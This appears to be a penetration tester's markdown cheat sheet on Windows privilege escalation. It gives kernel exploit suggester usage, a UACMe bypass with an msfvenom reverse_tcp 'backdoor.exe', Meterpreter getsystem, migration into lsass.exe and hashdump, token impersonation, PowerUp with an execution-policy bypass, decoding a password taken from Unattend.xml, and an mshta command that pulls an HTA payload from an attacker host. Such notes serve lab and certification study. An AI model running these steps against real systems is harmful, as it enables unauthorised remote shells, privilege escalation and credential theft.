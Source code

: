# Kernel Exploit:

- https://github.com/AonCyberLabs/Windows-Exploit-Suggester : missing patches comparison
- ./windows-exploit-suggester.py --update - generates xls to use in nxt step
- ./windows-exploit-suggester.py --database <xlsfile> --systeminfo <txt_file_with_systeminfo_output_from_win_shell>
- google exploit, may need to upload .exe to target sys, run it to get elevated shell
- https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS16-135

# Metasploit Modules:

- post/multi/recon/local_exploit_suggester : suggest exploits
	- eg. exploit/windows/local/ms16_014_wmi_recv_notif

# UACBypass - UACMe 

- need local admin account access
- migrate process to explorer.exe 
- pgrep explorer.exe OR ps -S explorer.exe
- https://github.com/hfiref0x/UACME
- using meterpreter, upload Akagi64.exe and upload playload generated with msfvenom to target system
	- use exploit/multi/handler to start a listener
	- Akagi64.exe 23 <payload_path> : run on target computer
	- Akagi64.exe 23 C:\Users\admin\AppData\Local\Temp\backdoor.exe
	- msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.1.3 LPORT=4444 -f exe > 'backdoor.exe'
- once run, we will get meterpreter session - getprivs/getsystem to get elevated privs
- migrate to lsass.exe and run hashdump

# Impersonate

![meterpreter getuid](./images/privesc-01.png)
![meterpreter access denied to read file](./images/privesc-02.png)  ￼￼

- load icognito
- list_tokens -u : make note of available tokens (eg. delegation token)
- impersonate_token <token_name>
![meterpreter access denied to read file](./images/privesc-03.png)  ￼￼	   ￼

# PowerUp

- https://github.com/PowerShellMafia/PowerSploit
- In target machine:
	- powershell -ep bypass (PowerShell execution policy bypass)
	- . .\PowerUp.ps1
	- Invoke-PrivescAudit - it will find misconfig files/leftover files like Unattend.xml
	- Get password from the Unattend.xml file, decode base64.
	- $password='QWRtaW5AMTIz'
  	  $password=[System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String($password))
  	  echo $password
	- runas.exe /user:administrator cmd
- In attacker machine:
	- use exploit/windows/misc/hta_server
	- running the above module generates a .hta payload, run in cmd on target
	- on target cmd: mshta.exe http://10.10.0.2:8080/6Nz7aySfPN.hta